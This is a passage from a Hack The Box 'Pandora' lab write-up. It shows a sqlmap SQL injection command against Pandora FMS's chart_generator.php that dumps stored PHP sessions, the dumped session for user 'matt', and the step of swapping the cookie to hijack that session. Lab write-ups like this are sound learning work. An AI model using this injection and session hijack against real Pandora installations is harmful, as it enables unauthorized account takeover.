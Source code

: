 ![](_/htb-pandora-20240607-3.png)

I tried running the exploit several ways with no luck. At this point I'm out of ideas for getting this exploit vector to work. I searched for some walkthroughs and saw that [0xdf](https://0xdf.gitlab.io/2022/05/21/htb-pandora.html) took a completely different vector using a SQLi.

I'm able to get the PHP session ID using the SQLi:

```console
$ sqlmap -u 'localhost:8888/pandora_console/include/chart_generator.php?session_id=1' --batch -D pandora -D pandora -T tsessions_php --dump --where "data like '%matt%'"
...
```

```sql
...
Database: pandora
Table: tsessions_php
[1 entry]
+----------------------------+-----------------------------------------------------+-------------+
| id_session                 | data                                                | last_active |
+----------------------------+-----------------------------------------------------+-------------+
| g4e01qdgk36mfdh90hvcc54umq | id_usuario|s:4:"matt";alert_msg|a:0:{}new_chat|b:0; | 1638796349  |
+----------------------------+-----------------------------------------------------+-------------+
```

I visit `http://127.0.0.1:8888/pandora_console/` and modify the cookie to match the session for `matt`:

![](_/htb-pandora-20240607-4.png)
